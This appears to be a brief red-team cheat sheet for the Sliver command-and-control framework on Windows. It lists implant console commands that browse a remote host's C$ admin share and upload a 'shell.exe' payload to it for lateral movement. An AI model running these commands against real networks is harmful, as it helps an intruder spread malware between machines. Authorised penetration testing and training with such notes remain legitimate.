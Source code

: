 # Sliver

Search Tag(s): #lateral-movement #sliver #windows

## 01 - List Files and Directories

```
sliver (IMPLANT_NAME) > ls \\\\<IP>\\c$

sliver (IMPLANT_NAME) > ls //<IP>/c$
```

## 02 - Upload Files

```
sliver (IMPLANT_NAME) > upload /path/to/local/shell.exe \\\\<IP>\\c$\\shell.exe

sliver (IMPLANT_NAME) > upload /path/to/local/shell.exe //<IP>/c$/shell.exe
```
